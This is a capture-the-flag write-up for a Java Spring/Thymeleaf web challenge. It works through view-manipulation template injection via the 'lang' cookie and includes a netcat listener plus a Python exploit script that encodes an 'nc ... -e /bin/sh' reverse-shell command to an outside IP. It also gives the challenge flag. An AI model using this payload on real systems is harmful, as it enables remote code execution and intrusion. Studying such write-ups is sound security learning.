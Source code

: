 #### Challenge:

We made a little cafe for all the ctfers to relax after the competition. The website is available in russian and english. [151.236.114.211:7878](http://151.236.114.211:7878/)

Try to find the flag somewhere in /

---

#### Solution:

- after playing with page we can see that it changes localization via `lang` cookie, however it supports only `en`/`ru` anything else causes error

```console
curl 'http://151.236.114.211:7878/' -H 'Cookie: lang=ro' | jq .
{
  "timestamp": "2021-02-28T09:25:20.493+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "exception": "org.thymeleaf.exceptions.TemplateInputException",
  "message": "",
  "path": "/"
}
```

- `thymeleaf` is templating engine for `java`, after looking for potential issues we found [spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability) that points us to simple code execution and reverse shell setup via `__${T(java.lang.Runtime).getRuntime().exec("nc ip port -e /bin/sh")}__::.x`

```bash
echo cat /try_find_me.txt | nc -lp 64999 # reverse shell setup
```

```python
import requests
import sys


def encode(s):
    ret = ''
    for c in s:
        if ret == '':
            ret += f'T(java.lang.Character).toString({ord(c)})'
        else:
            ret += '.concat(' + \
                f'T(java.lang.Character).toString({ord(c)})' + ')'
    return ret

shell_ip = '20.82.8.5'
shell_port = '64999'

cmd = 'nc ' + shell_ip + ' ' + shell_port + ' -e /bin/sh'

cookies = {
    'lang': '__${T(java.lang.Runtime).getRuntime().exec('+encode(cmd)+')}__::..x'.strip()
}
print(cmd)

s = requests.session()
r = s.get('http://151.236.114.211:7878/', cookies=cookies)
print(r.text)

```

---

<details><summary>FLAG:</summary>

```
Aero{j4va_1s_better_th4n_engl1sh}
```

</details>
<br/>
